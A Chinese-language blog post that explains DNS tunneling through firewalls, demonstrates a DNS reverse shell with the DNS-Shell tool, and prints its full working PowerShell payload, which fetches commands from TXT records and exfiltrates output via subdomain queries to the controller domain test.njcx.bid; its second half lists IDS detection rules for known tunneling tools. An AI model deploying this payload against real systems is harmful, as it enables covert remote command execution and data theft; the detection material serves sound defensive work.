

DNS介绍

我们先简单介绍一下 DNS协议，DNS协议是一个应用层协议，用来将域名转换为IP地址（也可以将IP地址转换为相应的域名地址），类似一个分布式数据库，数据通过udp传输,IP报头中的协议字段值为17.
DNS协议报文格式

通过wireshark 抓到的包：

由于关于dns报文介绍太长，参考下面url

关于DNS请求的方式如图， 具体可描述如下：
1. 主机先向本地域名服务器进行递归查询
2. 本地域名服务器采用迭代查询，向一个根域名服务器进行查询
3. 根域名服务器告诉本地域名服务器，下一次应该查询的顶级域名服务器的IP地址
4. 本地域名服务器向顶级域名服务器进行查询
5. 顶级域名服务器告诉本地域名服务器，下一步查询权限服务器的IP地址
6. 本地域名服务器向权威服务器进行查询
7. 权限服务器告诉本地域名服务器所查询的主机的IP地址
8. 本地域名服务器最后把查询结果告诉主机

如果在企业内网，那么黑客的攻击机器，就是所谓的权威服务器
第一步: 受控机向内部dns服务器发送一个查询NKNFjklKLuJNVIUM.ml.org的请求
第二步：内部dns服务器通过防火墙向根dns服务器发出查询请求
第三步：经过大量迭代后，DNS请求到达NKNFjklKLuJNVIUM.ml.org的权威DNS服务器（黑客所控制）
第四步：受控机请求查询的响应通过防火墙返回到内部DNS服务器
第五步：内部DNS服务器将响应结果返回给受控机
上面的流程展示了一个受控机在连接外部网络时dns解析的一个过程。由于防火墙并没有对dns协议做任何处理，所以我们可以通过这种方式来穿透防火墙。
这里很多人会有一个疑问，关于dns 请求查询NKNFjklKLuJNVIUMvKL.ml.org 是怎么到达黑客所控制的权威DNS服务器的？
请求一个域名，比如NKNFjklKLuJNVIUMvKL.ml.org ,本地DNS服务器上没有 NKNFjklKLuJNVIUMvKL.ml.org，那么它将向root，也就是根域名服务器请求，看看根知道不, root一看是.org的域名，就交 给.org域名服务器进行解析，.org的域名服务器一看是.ml.org那么就会去找.ml.org的域名服务器 (ns1.myhostadmin.net),看看它有没有这条记录，.ml.org的域名服务器上一看是.ml.org，如果它有这 条A记录，那么就会返回NKNFjklKLuJNVIUMvKL.ml.org 的记录。
但是，如果没有，你可以再在ml.org的域名服务器上设定一个NS 类型的记录，如：ml.org NS 111.222.333.444(通常这里不让设置为地址，你可以先在DNS服务器上添加一条A记录，如ns.ml.org A 111.222.333.444，再添加NS记录：ml.org NS ns.xxx.org)，这里指定一个公网服务器，就是黑客所控制的权威DNS服务器。
测试
我们测试一下使用dns反弹shell，用于测试的域名： test.njcx.bid
该域名的dns服务器位于 ns1.njcx.bid（公网ip：111.222.333.444）
受控机Windows7 ： 172.16.42.134
控制机 CentOS7： 111.222.333.444
我们用到的工具 DNS-Shell，我们在 CentOS7 上面执行 python DNS-shell.py -l -r test.njcx.bid ，接收由受控机过来的shell，执行后会生成一个 powershell的payload,保存为 ps1 Windows执行即可收到shell
$url = "test.njcx.bid";
function execDNS($cmd) {
$c = iex $cmd 2>&1 | Out-String;
$u = [system.Text.Encoding]::UTF8.GetBytes($c);
$string = [System.BitConverter]::ToString($u);
$string = $string -replace '-','';
$len = $string.Length;
$split = 50;
$repeat=[Math]::Floor($len/$split);
$remainder=$len%$split;
if($remainder){ $repeatr = $repeat+1};
$rnd = Get-Random;$ur = $rnd.toString()+".CMDC"+$repeatr.ToString()+"."+$url;
$q = nslookup -querytype=A $ur;
for($i=0;$i-lt$repeat;$i++){
$str = $string.Substring($i*$Split,$Split);
$rnd = Get-Random;$ur1 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
$q = nslookup -querytype=A $ur1;
};
if($remainder){
$str = $string.Substring($len-$remainder);
$i = $i +1
$rnd = Get-Random;$ur2 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
$q = nslookup -querytype=A $ur2;
};
$rnd=Get-Random;$s=$rnd.ToString()+".END."+$url;$q = nslookup -querytype=A $s;
};
while (1){
$c = Get-Random;
Start-Sleep -s 3
$u=$c.ToString()+"."+$url;$txt = nslookup -querytype=TXT $u | Out-String
$txt = $txt.split("`n") | %{$_.split('"')[1]} | Out-String
if ($txt -match 'NoCMD'){continue}
elseif ($txt -match 'exit'){Exit}
else{execDNS($txt)}
}
shell 如下，
我在被控机上抓包，如图，可以看出受控机器一直TXT请求 CentOS 控制机

可以看出我们的payload是 放到TXT字段里面，由CentOS 控制机响应给客户端的

然后，数据都分段放到子域名里面，分多次，再次用请求的方式，发送到我们的控制机器上了

检测
我们可以看出一些特征 ：
1， 请求的Type一般都是TXT（为了返回的时候能够加入更多的信息）。
2， payload部分一般都会编码（可能为base64、2进制或16进制）后放到子域名里面，而且多变，不一致
3， DNS发生频率很高，短时间为了发送大量数据，会产生大量请求
比如，DNS TXT请求频率过高，就报警，例子如下
alert udp any any -> any 53 (msg:"High TXT requests - Potential DNS Tunneling"; content:"|01 00|"; offset:2; within :4; content:"|00 00 10 00 01|"; offset:12; within:255; threshold: type threshold, track by_src, count 10, seconds 5; sid: 5700002; rev: 1;)
下面，收集了很多知名DNS利用工具的检测规则。
alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"APP-DETECT iodine dns tunneling handshake server ACK"; flow:to_client; byte_test:1,&,0x80,2; content:"|00 01 00 01 00|"; depth:5; offset:4; content:"v"; within:1; distance:4; content:"VACK"; within:200; fast_pattern; metadata:service dns; reference:url,code.kryo.se/iodine/README.html; classtype:policy-violation; sid:27046; rev:3;)
alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling up attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"-0"; distance:6; content:"id-"; within:3; distance:1; fast_pattern; content:"up"; within:8; detection_filter:track by_src, count 18, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27540; rev:4;)
alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling down attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"id-"; distance:6; fast_pattern; content:"down"; within:10; distance:2; detection_filter:track by_dst, count 8, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27541; rev:4;)
alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT Your-Freedom DNS tunneling query attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34496; rev:1;)
alert udp $EXTERNAL_NET 53 -> any any (msg:"APP-DETECT Your-Freedom DNS tunneling query response attempt"; flow:to_client; byte_test:1,!&,0x01,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34497; rev:1;)
alert udp $HOME_NET any -> any 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|00 01 00 00 00 00 00 00 1A|"; depth:9; offset:4; content:"|1A|"; within:1; distance:26; content:"|02|"; within:2; distance:26; metadata:service dns; classtype:policy-violation; sid:25983; rev:2;)
alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_client,no_stream; content:"|00 01 00 01 00 00 00 00|"; depth:8; offset:4; content:"|00 07 06|(){}[]"; fast_pattern; content:"|00 0A 00 01|"; within:4; distance:-17; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37891; rev:2;)
alert udp $HOME_NET any -> $EXTERNAL_NET 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server,no_stream; content:"|00 01 00 00 00 00 00 00|"; depth:8; offset:4; isdataat:80,relative; content:"|00 0A 00 01|"; within:15; distance:80; fast_pattern; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37892; rev:2;)
sid:2100208 (Tunneling IP over DNS with NSTX)
alert udp any any -> any 53 (msg:"GPL POLICY MISC Tunneling IP over DNS with NSTX"; byte_test: 1,>,32,12; content: "|00 10 00 01|"; offset: 12; rawbytes; threshold: type threshold, track by_src, count 50, seconds 60; reference:url,nstx.dereference.de/nstx/; reference:url,slashdot.org/articles/00/09/10/2230242.shtml; classtype:policy-violation; sid:2100208; rev:3; metadata:created_at 2010_09_23, updated_at 2010_09_23;)
sid:2024504 (ET TROJAN ISMAgent)
alert udp $HOME_NET any -> any 53 (msg:"ET TROJAN ISMAgent DNS Tunneling (microsoft-publisher . com)"; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"|13|microsoft-publisher|03|com|00|"; nocase; distance:0; fast_pattern; threshold:type limit, track by_src, count 1, seconds 60; metadata: former_category TROJAN; reference:md5,a70a08a1e17b820c7dc8ee1247d6bfa2; reference:url,researchcenter.paloaltonetworks.com/2017/07/unit42-oilrig-uses-ismdoor-variant-possibly-linked-greenbug-threat-group/; classtype:trojan-activity; sid:2024504; rev:3; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_07_28, malware_family Ismdoor, performance_impact Moderate, updated_at 2017_07_31;)
sid:2025072 (ET TROJAN Patchwork)
alert dns $HOME_NET any -> any any (msg:"ET TROJAN Patchwork DNS Tunneling (nsn1.winodwsupdates .me)"; dns_query; content:".nsn1.winodwsupdates.me"; isdataat:!1,relative; metadata: former_category TROJAN; reference:url,docs.google.com/document/d/1oYX3uN6KxIX_StzTH0s0yFNNoHDnV8VgmVqU5WoeErc; classtype:trojan-activity; sid:2025072; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_11_27, malware_family Patchwork, performance_impact Low, updated_at 2017_11_27;)
sid:2025894 (ET TROJAN OilRig)
alert dns $HOME_NET any -> any 53 (msg:"ET TROJAN OilRig QUADAGENT DNS Tunneling"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|04|mail|06|"; distance:0; nocase; pcre:"/^\d{6}/Ri"; content:"|07|cpuproc|03|com|00|"; fast_pattern; distance:0; within:13; nocase; threshold: type limit, count 1, seconds 60, track by_src; metadata: former_category TROJAN; reference:md5,d51c2ffce844d42bab2f2c3131e3dbd4; reference:url,researchcenter.paloaltonetworks.com/2018/07/unit42-oilrig-targets-technology-service-provider-government-agency-quadagent/; classtype:trojan-activity; sid:2025894; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2018_07_25, malware_family QuadAgent, performance_impact Low, updated_at 2018_07_25;)